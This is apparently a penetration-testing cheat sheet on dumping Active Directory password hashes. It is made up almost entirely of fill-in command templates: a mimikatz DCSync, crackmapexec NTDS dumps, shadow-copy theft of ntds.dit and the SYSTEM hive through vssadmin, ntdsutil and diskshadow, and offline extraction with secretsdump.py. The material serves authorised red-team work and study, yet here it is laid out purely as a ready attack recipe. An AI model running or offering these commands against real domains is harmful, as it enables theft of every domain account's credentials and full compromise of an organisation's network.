 ### DCSync (drsuapi)

```
mimikatz
lsadump::dcsync /domain:<DOMAIN_FQDN> /dc:<DC_FQDN> /user:<krbtgt | USERNAME>

crackmapexec <DC_HOSTNAME | DC_IP> -d "<DOMAIN>" -u '<USERNAME>' -p '<PASSWORD>' --ntds drsuapi
```

### Volume Shadow Copy

###### Local code execution

*vssadmin*

```
vssadmin create shadow /for=C:
# Shadow Copy ID: <GUID>
# Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy<ID>\Windows\NTDS\ntds.dit <PATH>\ntds.dit
reg save HKLM\SYSTEM <PATH>\SYSTEM

vssadmin delete shadows /shadow=<GUID>
```

*ntdsutil*

`ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q`

```
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```

*diskshadow*

```
set context persistent nowriters
add volume c: alias alilol
create
expose %alilol% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\Users\backup-svc\ntds.dit
delete shadows volume %alilol%
reset
```

###### Over the network

```
crackmapexec <DC_HOSTNAME | DC_IP> -d "<DOMAIN>" -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
```

### Extract data

```
secretsdump.py -ntds <NTDS_DIT_FILE> -system <SYSTEM_HIVE_FILE> LOCAL
```
